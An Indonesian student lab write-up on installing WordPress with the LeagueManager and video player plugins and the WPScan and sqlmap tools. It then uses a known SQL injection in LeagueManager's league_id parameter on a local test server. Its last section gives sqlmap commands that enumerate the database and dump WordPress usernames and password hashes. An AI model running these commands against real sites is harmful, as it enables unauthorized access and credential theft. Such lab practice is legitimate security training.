


# Tugas 2

## Instalasi Wordpress
1. Download Wordpress dari laman [Wordpress](https://wordpress.org/)  

2. Ekstrak file wordpress yang sudah kita download lalu letakkan di folder root web di komputer kita. Contoh apabila menggunakan apache di windows folder root terdapat di folder htdocs dan linux terdapat di folder /var/www/html.
3. Siapkan database mysql untuk wordpress kita. Contohnya kita buat database dan kita beri nama wordpress

3. Akses wordpress yang sudah kita letakkan di folder root web dengan browser
4. Saat pertama kali, kita akan diminta untuk meilih bahasa

5. Setelah memilih bahasa kita akan diminta konfigurasi database

6. Selanjutnya kita akan diminta untuk mengisi detil website kita

7. Instalasi selesai

8. Setelah instalasi selesai apabila kita ingin masuk ke dashboard admin, kita bisa mengakses ke endpoint wp-login. contoh "http://alamatwordpress.com/wp-login.php"

9. Apabila berhasil login kita akan masuk ke dashboard wordpress

## Instalasi Plugin
### Instalasi LeagueManager
1. Cari leaguemanager.

2. Pilih leaguemanager dan akan keluar popup dan pilih **Laman Plugin WordPress.org**

3. Lalu kita akan diarahkan ke laman plugin pada wordpress. Pilih advanced view pada bagian kanan bawah.

4. Pada halaman baru yang muncul, pilih versi plugin yang terletak di bawah halaman.

5. Selanjutnya download plugin akan dimulai.
6. Setelah download selesai, kita unggah plugin ke situs kita.

7. Lalu aktifkan plugin.

8. Instalasi plugin akan dimulai.

### Instalasi WordPress Video Player
1. Cari video player.

2. Pilih WordPress Video Player dan akan keluar popup dan pilih **Laman Plugin WordPress.org**

3. Lalu kita akan diarahkan ke laman plugin pada wordpress. Pilih advanced view pada bagian kanan bawah.

4. Pada halaman baru yang muncul, pilih versi plugin yang terletak di bawah halaman.

5. Selanjutnya download plugin akan dimulai.
6. Setelah download selesai, kita unggah plugin ke situs kita.

7. Lalu aktifkan plugin.

8. Instalasi plugin akan dimulai.

Apabila plugin telah terpasang tampilan laman plugin akan seperti dibawah ini.

## Instalasi Tools Penetrasi
### Instalasi WPSCAN  
1. Pastikan komputer kita sudah terinstall git. Apabila belum kita dapat menginstalnya dengan mengetikkan `sudo apt-get install git`
2. Install dependency dengan mengetikkan `sudo apt-get install libcurl4-openssl-dev libxml2 libxml2-dev libxslt1-dev ruby-dev build-essential libgmp-dev zlib1g-dev`
  
3. Clone repo wpscan dengan mengetikkan `git clone https://github.com/wpscanteam/wpscan.git`

4. Install ruby dengan mengetikkan `sudo apt-get intsall ruby` tapi, karena saya menggunakan Ubuntu 16.04 bisa cukup dengan mengetikkan `sudo apt install ruby`  
  
5. Masukke folder wpscan yang sudah kita clone
6. Install bundler dengan mengetikkan `sudo gem install bundler && bundle install --without test`
  
### Instalasi SQLMAP
Ada 2 cara untuk menginstall sqlmap
1. clone github dari sqlmap dengan mengetikkan `git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev` **sqlmap-dev** disini, saya ingin clone folder dari github tersebut ke folder bernama **sqlmap-dev**  
  
Setelah tahap clone, pindah direktori pada folder sqlmap anda, lalu bisa dijalankan dengan mengetikkan `python sqlmap.py`  
2. Install langsung dengan mengetikkan `sudo apt-get install sqlmap`  
  

## Uji Penetrasi
### Scanning menggunakan wpscan
1. Scanning

2. Hasil Scanning

## Exploit menggunakan sqlmap
### LeagueManager
Berdasarkan tautan https://www.exploit-db.com/exploits/37182/ , Pada plugin leaguemanager versi 3.9.11 terdapat bug, salah satunya pada parameter league_id yang tidak diamankan sehingga dimungkinkan sql injection.

1. Setelah diketahui terdapat variabel yang bisa dieksploit, kita bisa menggunakan sql map untuk database listing. Syntax: `sqlmap --url "http://192.168.1.14/wordpress/?season=1&league_id=1&match_day=1&team_id=1" --dbms mysql --dbs`

2. Selanjutnya kita dapat melakukan table listing. Kita coba list semua table pada database wordpress karena kemungkinan database situs disimpan disitu. Syntax: `sqlmap --url "http://192.168.1.14/wordpress/?season=1&league_id=1&match_day=1&team_id=1" --dbms mysql  -D wordpress --tables`

3. Selanjutnya kita akan melakukan listing ke tabel wp_users karena disitu kemungkinan berisi login informasi. Syntax: `sqlmap --url "http://192.168.1.14/wordpress/?season=1&league_id=1&match_day=1&team_id=1" --dbms mysql  -D wordpress -T wp_users --columns`

4. Dump isi table wp_users. Syntax: `sqlmap --url "http://192.168.1.14/wordpress/?season=1&league_id=1&match_day=1&team_id=1" --dbms mysql  -D wordpress -T wp_users -C user_login,user_pass --dump`

